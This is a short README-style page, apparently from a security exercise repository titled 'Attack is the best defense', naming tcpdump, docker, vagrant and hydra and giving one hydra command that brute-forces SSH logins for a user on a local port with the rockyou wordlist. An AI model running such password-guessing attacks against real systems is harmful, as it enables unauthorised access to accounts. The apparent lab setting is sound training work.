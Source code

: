 # Attack is the best defense
### I made use of tcpdump, docker, vagrant & hydra
### I used the following command 
[ ```sudo hydra -l sylvain -P /vagrant/rockyou.txt ssh://127.0.0.1:2222 -t 4```]
